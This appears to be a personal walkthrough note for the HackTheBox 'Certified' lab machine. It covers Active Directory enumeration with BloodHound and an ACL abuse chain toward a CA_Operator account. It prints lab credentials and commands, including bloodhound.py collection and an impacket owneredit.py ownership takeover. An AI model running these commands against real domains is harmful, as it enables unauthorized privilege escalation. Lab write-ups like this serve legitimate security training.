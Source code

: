 The script 
![[HackTheBox/Windows/attachments/Pasted image 20250525194856.png]]

All in all - we have a high value target -> operator ca

### Enumerate for Priv Esc 

#### Run BloodHound.py

Use bloodhound-ce branch maybe 

![[HackTheBox/Windows/attachments/Pasted image 20250525195100.png]]

```
python3 bloodhound.py -d certified.htb -u 'judith.mader' -p 'judith09' -c all -ns 10.10.11.41 
```

Start bloodhound server 
```
cd /opt/bloodhound/server/; docker compose up -d
```

1. Mark current user as owned
2. Click on outbound object control to see what they can do

![[HackTheBox/Windows/attachments/Pasted image 20250525195851.png]]

Judith.Mader has WriteOwner over Management
![[HackTheBox/Windows/attachments/Pasted image 20250525195926.png]]

3. Check Outbound Object Control for Management

Management has GenericWrite over Management_SVC
![[HackTheBox/Windows/attachments/Pasted image 20250525200046.png]]

4. Check Outbound Object Control for Management_SVC

Management_SVC has GenericAll over CA_Operator 👀
![[HackTheBox/Windows/attachments/Pasted image 20250525200155.png]]

✨Goal: get to CA_Operator because they can enroll in a vulnerable certificate✨

Show path between judith and ca_operator 
![[HackTheBox/Windows/attachments/Pasted image 20250525213531.png]]
Follow these steps to get to ca_operator.

#### Own CA_Operator

##### Exploit WriteOwner 

###### Owneredit.py

Use impacket's owneredit.py

```
owneredit.py -dc-ip 10.10.11.41 -action write -new-owner judith.mader -target management certified/judith.mader:judith09
```
